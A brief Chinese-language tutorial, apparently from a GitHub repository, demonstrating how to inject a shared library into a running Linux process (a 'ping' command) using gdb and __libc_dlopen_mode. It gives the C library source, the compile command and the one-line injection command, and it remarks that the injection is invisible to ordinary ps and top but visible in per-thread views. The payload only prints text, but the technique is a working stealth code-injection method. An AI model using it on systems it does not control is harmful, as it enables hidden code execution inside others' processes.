 # 注入Linux进程
系统中有这样一个进程`ping 163.com`,在不影响其运行的情况下,借助它执行自己的代码.测试环境以`Ubuntu 18.04`为例,安装有gcc和gdb  
![](pic/1.png)
```c
#include <pthread.h>
#include <stdio.h>
#include <unistd.h>

void* run(void* n)
{
    while (1) {
        printf("Talk is cheap. Show me the code.\n");
        sleep(2);
    }
    return NULL;
}

__attribute__((constructor)) void start_thread()
{
    pthread_t tid;
    pthread_attr_t attr;

    if (pthread_attr_init(&attr) == -1 || pthread_attr_setdetachstate(&attr, PTHREAD_CREATE_DETACHED) == -1)
        return;

    pthread_create(&tid, &attr, run, NULL);
}
```
编译
```bash
gcc -Wall -O2 -fPIC -shared -lpthread -o doraemon.so ./doraemon.c
```
用gdb注入
```bash
echo 'print __libc_dlopen_mode("/root/doraemon.so", 2)' | gdb -p 1144
```
结果如下  
![](pic/2.png)  
常规情况下,用`ps`和`top`无法发现注入,但是可以用`ps -Tp 1144`和`top -Hp 1144`来查看对应进程的线程.